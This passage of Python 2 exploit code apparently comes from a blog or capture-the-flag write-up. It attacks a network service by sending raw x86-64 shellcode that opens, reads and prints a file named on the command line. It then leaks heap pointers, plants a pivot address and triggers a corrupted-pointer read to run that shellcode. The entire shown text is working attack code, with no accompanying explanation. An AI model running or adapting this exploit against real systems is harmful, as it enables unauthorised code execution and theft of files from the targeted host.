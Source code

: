 # banner
s.recv(1024)

length = len(sys.argv[1])
filename = sys.argv[1].strip()
# send first string. this will be our shellcode
s.send('c 0 \xeb\x3f\x5f\x80\x77'+struct.pack('<b', length)+'\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff'+filename+'A\n')

time.sleep(0.1)
#s.recv(2)  # receive pesky '> '
data = s.recv(64)
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)

# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')

time.sleep(0.1)
data = s.recv(64)
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

time.sleep(0.1)
data = s.recv(64)
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

time.sleep(0.1)
data = s.recv(64)
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')

time.sleep(0.1)
print s.recv(1024)

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
{% endhighlight)
